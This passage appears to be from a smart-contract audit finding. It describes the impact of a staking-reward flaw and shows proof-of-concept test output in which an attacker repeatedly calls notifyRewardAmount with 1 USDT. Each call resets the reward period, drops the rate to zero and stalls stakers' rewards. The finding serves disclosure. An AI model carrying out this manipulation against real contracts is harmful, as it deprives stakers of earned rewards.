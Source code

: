 ### Impact

Stakers suffer a substantial reduction in their accrued rewards due to the manipulated reward calculations. The continuous resetting of the reward period prevents the proper accumulation of rewards over time. Additionally, the admin may lose the ability to effectively manage or blacklist tokens, as the ongoing reward period (driven by unauthorized calls) obstructs corrective actions.


```bash 
>>> [Time Travel] Increased time by 1 week.
>>> [Reward Calculation] Expected reward for User1: 403199
>>> [Reward Claim] User1 claimed: 403199
          ✔ normal expected scenario: users deposit and, after the reward duration, receive correct rewards
>>> [Time Travel] Increased time by 1 day.
>>> [Reward Calculation] After 1 day, expected reward for User1: 57599
>>> [Reward State Before Attack] Duration: 604800
>>> [Reward State Before Attack] Rate: 1
>>> [Reward State Before Attack] Period Finish: 1740995838
>>> [Reward State Before Attack] Last Updated: 1740391038
>>> [Reward State Before Attack] Per Token Stored: 0
>>> [Attack] Initiating reward manipulation attack.
>>> [Attack] Hacker approved 1 USDT for transfer.
>>> [Attack] Hacker invoked notifyRewardAmount with 1 USDT.
>>> [Reward State] Duration: 604800
>>> [Reward State] Rate: 0
>>> [Reward State] Period Finish: 1741168640
>>> [Reward State] Last Updated: 1740563840
>>> [Reward State] Per Token Stored: 190478395061728395
>>> [Time Travel] Increased time by an additional 1 day (attacker intervention).
>>> [Reward Calculation] After 2 days, expected reward for User1: 115201
>>> [Attack] Initiating reward manipulation attack.
>>> [Attack] Hacker approved 1 USDT for transfer.
>>> [Attack] Hacker invoked notifyRewardAmount with 1 USDT.
>>> [Reward State] Duration: 604800
>>> [Reward State] Rate: 0
>>> [Reward State] Period Finish: 1741255042
>>> [Reward State] Last Updated: 1740650242
>>> [Reward State] Per Token Stored: 190478395061728395
>>> [Time Travel] Increased time by an additional 1 day (attacker intervention).
>>> [Reward Calculation] After 3 days, expected reward for User1: 115201
>>> [Attack] Initiating reward manipulation attack.
>>> [Attack] Hacker approved 1 USDT for transfer.
>>> [Attack] Hacker invoked notifyRewardAmount with 1 USDT.
>>> [Reward State] Duration: 604800
>>> [Reward State] Rate: 0
>>> [Reward State] Period Finish: 1741341444
>>> [Reward State] Last Updated: 1740736644
>>> [Reward State] Per Token Stored: 190478395061728395
>>> [Time Travel] Increased time by an additional 1 day (attacker intervention).
>>> [Reward Calculation] After 4 days, expected reward for User1: 115201
>>> [Attack] Initiating reward manipulation attack.
>>> [Attack] Hacker approved 1 USDT for transfer.
>>> [Attack] Hacker invoked notifyRewardAmount with 1 USDT.
>>> [Reward State] Duration: 604800
>>> [Reward State] Rate: 0
>>> [Reward State] Period Finish: 1741427846
>>> [Reward State] Last Updated: 1740823046
>>> [Reward State] Per Token Stored: 190478395061728395
>>> [Time Travel] Increased time by an additional 1 day (attacker intervention).
>>> [Reward Calculation] After 5 days, expected reward for User1: 115201
>>> [Attack] Initiating reward manipulation attack.
>>> [Attack] Hacker approved 1 USDT for transfer.
>>> [Attack] Hacker invoked notifyRewardAmount with 1 USDT.
```